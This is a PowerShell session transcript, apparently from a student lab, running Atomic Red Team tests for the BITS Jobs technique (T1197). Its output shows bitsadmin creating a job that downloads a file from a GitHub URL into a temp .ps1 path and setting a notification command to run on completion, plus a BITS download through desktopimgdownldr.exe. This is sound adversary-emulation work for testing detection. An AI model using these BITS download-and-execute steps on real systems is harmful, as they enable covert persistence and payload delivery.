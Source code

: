 # T1197

**********************
Windows PowerShell transcript start
Start time: 20210602075749
Username: DESKTOP-5BHJDMU\student
RunAs User: DESKTOP-5BHJDMU\student
Configuration Name: 
Machine: DESKTOP-5BHJDMU (Microsoft Windows NT 10.0.19042.0)
Host Application: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process ID: 6988
PSVersion: 5.1.19041.906
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.19041.906
BuildVersion: 10.0.19041.906
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\Users\student\Desktop\T1197.md
PS C:\Users\student> Write-Host "# T1197"

PS C:\Users\student> Write-Host "## Test 3"

## Test 3
PS C:\Users\student> get-date

Wednesday, June 2, 2021 7:58:12 AM


PS C:\Users\student> Invoke-AtomicTest T1197 -TestNumbers 3
PathToAtomicsFolder = C:\Tools\atomics
Executing test:
T1197-3 Persist, Download, & Execute

Done executing test:
T1197-3 Persist, Download, & Execute


BITSADMIN version 3.0
BITS administration utility.
(C) Copyright Microsoft Corp.

Created job {A7FD60BC-C14D-4B5E-816C-90BB23406C41}.

BITSADMIN version 3.0
BITS administration utility.
(C) Copyright Microsoft Corp.

Added https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -> C:\Users\student\AppData\Local\Temp\bitsadmin3_flag.ps1 to job.

BITSADMIN version 3.0
BITS administration utility.
(C) Copyright Microsoft Corp.

notification command line set to 'C:\Windows\system32\notepad.exe' ''.

BITSADMIN version 3.0
BITS administration utility.
(C) Copyright Microsoft Corp.

Job resumed.

Waiting for 5 seconds, press a key to continue ...43210

BITSADMIN version 3.0
BITS administration utility.
(C) Copyright Microsoft Corp.

Job completed.
PS C:\Users\student> Write-Host "## Test 4"

## Test 4
PS C:\Users\student> get-date

Wednesday, June 2, 2021 7:58:46 AM


PS C:\Users\student> Invoke-AtomicTest T1197 -TestNumbers 4
PathToAtomicsFolder = C:\Tools\atomics
Executing test:
T1197-4 Bits download using desktopimgdownldr.exe (cmd)

Done executing test:
T1197-4 Bits download using desktopimgdownldr.exe (cmd)

PS C:\Users\student> Stop-Transcript
**********************
Windows PowerShell transcript end
End time: 20210602075900
**********************
